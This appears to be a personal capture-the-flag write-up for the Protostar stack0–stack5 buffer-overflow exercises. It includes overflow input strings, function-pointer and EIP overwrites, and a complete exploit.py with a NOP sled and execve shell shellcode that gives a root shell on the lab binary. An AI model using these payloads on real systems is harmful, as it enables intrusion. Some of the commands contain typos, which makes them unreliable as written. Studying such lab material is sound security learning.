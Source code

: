 ##Stack0
from disassemble we notice that

```
lea eax, dword [local_1ch]
...
test eax, eax
je 0x8048427
```

so `modified` is stored as `eax` in stack
and we need try to overwrite this `eax`
as the address of `eax` is just after `buffer` in stack
so we just need input a string like `"A" * 64`

##Stack1
just like `stack0` just this time we need change modified to `0x61626364` which is `dcba` 
so the input is `'a'*64+'dcba'`

##Stack2
same as before just need set environment variable `GREENIE` with hex`0x0a0d0a0d`
so `export GREENIE=$'A..(64)\x0a\x0d\x0a\x0d'` this `$` is important here

##Stack3
still easy, we want the `win` function be called, which just need rewrite the `fp`
so use `gdb` to get the address of `win`(or just use r2 haha which I used)
```
> aaaa
> afl
```
then we get the `win` address is `0x08048424`
so just `print -c "print 'A'*64 + '\x24\x84\x04\x08'" | ./stack3`

##Stack4
we need overflow and change the EIP now
using `gdb-peda` we know that overflow to EIP need 76 chars
`python -c "print 'A' * 76 + '\xf4\x83\x04\x08" | ./stack4`

##Stack5
same as stack4, just we need inject shellcode this time
overflow to EIP need 76 chars

ok I tried inject shellcode in buffer and in the modified eip address all didn't work for me
this one is really tricky
then I run it in root mode `username=root, password=godmode` btw I do love this password! and turn on the `core dump`
`ulimit -c unilimited`
`echo "/tmp/core.%t" > /proc/sys/kernal/core_pattern`
in case of that the real stack address while overflow happened might be different
and well this time my code was sorta hmm work, as no error, but also no shell!!!

so I checked the Video from `Liveoverflow` then I get some idea from it(from sploier haha)
* use lots and lots `NOP` to deal with the stack keep changing issue, well I tried to use `ROP` to deal this before, BUT sadly it didn't call `system`!!! Well on the other side finally I understand why `NOP` is so important!
* and run exploit like this `python exploit.py; cat | ./stack5`. yes the `cat` is the key, as it is like this, `stack5` expect an input and so we give it `bash` as input then the `pipe` die, and OVER haha, so we need a cat here

OK seems perfect, I shall go now
and YES it works!

ok here is the code
```
exploit.py

import struct

junk = "A" * 76
eip = struct.pack('I', 0xbffff81c + 30)
nopslide = "\x90" * 100
payload = "\x31\xc0\x50\x68\x2f\x2f\x73"
payload += "\x68\x68\x2f\x62\x69\x6e\x89"
payload += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
payload += "\xcd\x80\x31\xc0\x40\xcd\x80"

print junk+eip+nopslide+payload
```

`(python exploit.py ; cat) | /opt/protostar/bin/stack5`
and there is the root shell!
